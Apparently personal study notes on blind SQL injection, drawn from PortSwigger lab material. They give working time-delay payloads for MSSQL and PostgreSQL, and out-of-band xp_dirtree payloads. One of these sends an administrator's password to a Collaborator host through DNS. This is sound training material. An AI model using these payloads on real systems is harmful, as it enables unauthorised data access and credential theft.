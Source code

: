 #### Triggering time delays
The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
`'; IF (1=2) WAITFOR DELAY '0:0:10'-- ' 
`;IF (1=1) WAITFOR DELAY '0:0:10'--`

- The first of these inputs does not trigger a delay -->   because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds -->  because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

##### Blind SQL injection with time delays
- Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
- Modify the `TrackingId` cookie, changing it to:
  `TrackingId=x'||pg_sleep(10)--`
- Submit the request and observe that the application takes 10 seconds to respond

##### Blind SQL injection with time delays and information retrieval
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

### out-of-band (OAST) techniques
An application might carry out the same SQL query as the previous example but do it asynchronously. 
=>
- The app continues processing the user's request in the original thread
- and uses another thread to execute a SQL query using the tracking cookie. 
  =>
	- The query is still vulnerable to SQL injection
	- but none of the techniques described so far will work

Solution:
trigger out-of-band network interactions to a system that you control
=>
for example you can trigger `DNS`

The easiest and most reliable tool for using out-of-band techniques is [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator):
- server that provides custom implementations of various network services
- It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This causes the database to perform a lookup for the following domain:
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Having confirmed a way to trigger out-of-band interactions
=>
you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
This input:
- reads the password for the `Administrator` user
- appends a unique Collaborator subdomain
- triggers a DNS lookup. 
- This lookup allows you to view the captured password:
  `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

